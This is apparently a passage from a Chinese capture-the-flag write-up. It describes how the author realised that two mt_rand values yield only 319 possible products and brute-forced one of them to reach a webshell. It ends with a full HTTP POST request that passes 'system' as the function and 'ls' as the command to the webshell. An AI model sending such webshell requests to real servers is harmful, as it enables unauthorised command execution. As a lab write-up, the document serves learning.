 我在那个页面里面只看到了代码，但没有打印任何的数字

我就尝试地去访问了下那个注释的 php 文件

发现是一个 7 位数数字，正好对上了两个 4 位数相乘

所以后面在连 Webshell 构造参数的时候，也要在这个文件那里搞

我一开始的思路，是遍历这个 seed 值

根据这个 seed 值去获取特定的随机数序列

拿这个随机数序列去和服务器生成的随机数序列进行比对

如果生成的随机数序列和服务器的相同

则表示服务器生成随机数使用的 seed 值也是这个

【PS：因为代码中没调用 mt\_srand，所以是系统随机生成的，常规来说 mt\_srand 会在第一次调用 mt\_rand 的时候生成，后面的会沿用第一次调用生成的 seed】

但如果要按这个思路来搞的话，工作量是很大很大的

首先，我得遍历足够数量的 seed 保证系统随机生成的 seed 能被我跑到

其次，生成的随机数序列也得足够大，因为我没办法知道随机数已经被生成了多少次

综合上面这两点，让我觉得这个思路可能会行不通...

那怎么办呢？

我又好好的看了一遍代码...

发现生成的两个随机数的个数其实很少

```bash
$x=mt_rand(2012,2022);
$y=mt_rand(1997,2024);
```

最后取乘积的话，也就只有 29 \* 11 = 319 种可能而已

那我只需要取其中一种可能，一直爆破就行...

事实上确实可行

根据之前得到的构造下 Payload

```bash
POST /au2c7ts62gs1ush13.php?Nhhb=system HTTP/1.1
Host: v50crazyKfc.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://v50crazyKfc.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Authorization: Basic c3lzdGVtOjEyMzQ1Ng==
Connection: close
Upgrade-Insecure-Requests: 1

4054162=ls
```
